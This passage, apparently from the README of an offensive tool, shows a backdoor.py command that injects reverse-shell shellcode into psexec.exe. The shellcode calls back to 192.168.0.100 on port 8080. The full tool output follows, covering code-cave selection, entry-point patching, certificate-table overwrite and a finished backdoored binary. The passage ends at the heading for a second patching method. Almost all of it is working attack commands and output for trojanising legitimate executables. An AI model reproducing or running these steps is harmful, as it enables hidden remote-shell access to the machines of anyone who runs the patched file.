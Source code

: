 ###Patch an exe/dll using an existing code cave:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Looking for caves that will fit the minimum shellcode length of 402
    [*] All caves lengths:  (402,)
    ############################################################
    The following caves can be used to inject code and possibly
    continue execution.
    **Don't like what you see? Use jump, single, append, or ignore.**
    ############################################################
    [*] Cave 1 length as int: 402
    [*] Available caves:
    1. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e4d5 End: 0x2e6d0; Cave Size: 507
    2. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e6e9 End: 0x2e8d5; Cave Size: 492
    3. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e8e3 End: 0x2ead8; Cave Size: 501
    4. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eaf1 End: 0x2ecdd; Cave Size: 492
    5. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2ece7 End: 0x2eee0; Cave Size: 505
    6. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eef3 End: 0x2f0e5; Cave Size: 498
    7. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f0fb End: 0x2f2ea; Cave Size: 495
    8. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f2ff End: 0x2f4f8; Cave Size: 505
    9. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f571 End: 0x2f7a0; Cave Size: 559
    10. Section Name: .rsrc; Section Begin: 0x30600 End: 0x5f200; Cave begin: 0x5b239 End: 0x5b468; Cave Size: 559
    **************************************************
    [!] Enter your selection: 5
    Using selection: 5
    [*] Changing Section Flags
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch an exe/dll by adding a code section:
